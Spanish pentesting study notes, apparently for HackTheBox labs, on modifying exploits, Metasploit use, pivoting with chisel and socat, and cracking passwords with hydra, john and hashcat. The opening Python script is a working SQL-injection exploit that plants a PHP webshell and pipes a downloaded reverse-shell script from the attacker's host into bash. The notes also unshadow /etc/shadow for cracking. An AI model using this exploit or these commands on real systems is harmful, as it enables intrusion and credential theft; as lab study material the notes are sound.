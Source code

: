 # Identificar y modificar exploits

```
import requests
import sys
import subprocess
import random

if len(sys.argv) < 2:
	#AQUI HABRIA QUE CAMBIAR EL LISTENER IP Y EL LISTENER PORT
    print("Usage: python3 HTB_Zipping_poc.py <listener ip> <listener port>")
    sys.exit(1)

fnb = random.randint(10, 10000)
url = "http://zipping.htb/"

session = requests.Session()

print("[+] Please run nc in other terminal: rlwrap -cAr nc -nvlp " + f"{sys.argv[2]}")

print("[+] Write php shell /var/lib/mysql/rvsl" + str(fnb) + ".php")

with open('revshell.sh', 'w') as f:
        f.write("#!/bin/bash\n")
        f.write(f"bash -i >& /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1")
proc = subprocess.Popen(["python3", "-m", "http.server", "8000"])
phpshell = session.get(url + f"shop/index.php?page=product&id=%0A'%3bselect+'<%3fphp+system(\"curl+http%3a//{sys.argv[1]}:8000/revshell.sh|bash\")%3b%3f>'+into+outfile+'/var/lib/mysql/rvsl{fnb}.php'+%231")

print("[+] Get Reverse Shell")

phpshell = session.get(url + f"shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2frvsl{fnb}")

proc.terminate()
```

# Realizar explotación con metasploit

![[Pasted image 20240726092624.png]]
Después de hacer un nmap y haber visto las versiones de los servicios, podemos buscar a ver si hay exploits con searchsploit.
![[Pasted image 20240726092756.png]]
También podemos hacer la búsqueda desde la msfconsole.
![[Pasted image 20240726092848.png]]
Podemos buscar haber si hay algun exploit disponible  con search 
Podemos seleccionar el eploit con use 0, sino podemos hacer un use exploit/unix/ftp/vsftpd_234_backdoor
![[Pasted image 20240726093136.png]]
Con show options, podemos ver los parametros que necesita el exploit.
![[Pasted image 20240726093322.png]]
Con set marcamos el rhosts y le ponemos la ip de la máquina victima.
Hacemos el primer exploit y vemos que no ha conseguido crear la session, pero hacemos run y ya coge la shell como root.

# Demostrar cómo pivotar agregando una ruta y reenviando puertos
![[Pasted image 20240726094537.png]]
Creamos un servidor  con chisel para crear un tunel http entre la máquina victima y la mía.
![[Pasted image 20240726094612.png]]
Nos conectamos como cliente desde la máquina victima a la máquina atacante.
![[Pasted image 20240726094710.png]]
Podemos ver que se nos han conectado por el puerto 6565 y que se ha generado un proxy en el puerto 1080.
![[Pasted image 20240726094753.png]]
Añadimos está linea al final del todo del archivo /etc/proxychains4
![[Pasted image 20240726095115.png]]
Añadimos el proxy y ya podremos ver la página de la segunda máquina de la red. Pero para que estas máquinas puedan conectarse a nosotros necesitamos el socat.
![[Pasted image 20240726102443.png]]
Abrimos en la máquina victima 1 un escucha en el puerto 1111, y que lo reenvie a nuestra máquina atacante al puerto 448.

![[Pasted image 20240726102525.png]]
En la máquina atacante abrimos la escucha en el puerto 448 con nc.
![[Pasted image 20240726112713.png]]
Hacemos un revershell en la máquina victima 2.
![[Pasted image 20240726112739.png]]
Y en la escucha que tenemos en el puerto 448 se nos abrirá la shell de la máquina 2.





# Realizar ataques de fuerza bruta a contraseñas y descifrado de hash

![[Pasted image 20240726123145.png]]
Para hacer ataques de fuerza bruta a contraseñas, podemos utilizar hydra:
-L marca el diccionario de usernames que se probarán
-p marca el diccionario de passwords que utilizará
Después marcamos la ip objetivo y el servicio que queremos atacar.
-s marcamos puerto específico

John the ripper:
Con esta herramienta podemos hacer ataques de fuerza bruta a hashes de contraseña.

Practica de ejemplo:
`unshadow /etc/passwd /etc/shadow > password.txt`
`john --wordlist=/path/to/dictionary password.txt`
`john --wordlist=/home/kali/contraas.txt  hash.txt --format=crypt ` "--format=crypt(sirve para yescrypt que es el hash de la pass de linux)"
`john --show password.txt`


Con john podemos adaptarnos a diferentes formatos de hash y tipos de archivos protegidos por contraseña. Existen unas herramientas que convierten estos archivos o hashes a un formato legible para john the ripper. Estas herramientas son programas conocidos como 2john. Ej:
zip2john -- rar2john -- pdf2john -- keepass2john...

Hashcat

Con esta herramienta también podemos hacer ataques de fuerza bruta a contraseñas.

Ejemplos de uso:

`hashcat -m 0 -a 0 hash.txt rockyou.txt`

Con -m especificamos el tipo de hash (MD5 en este caso)
-a especifica el modo de ataque (ataque de diccionario)
Primero se pone el archivo donde tenemos el hash a crackear y luego ponemos el diccionario 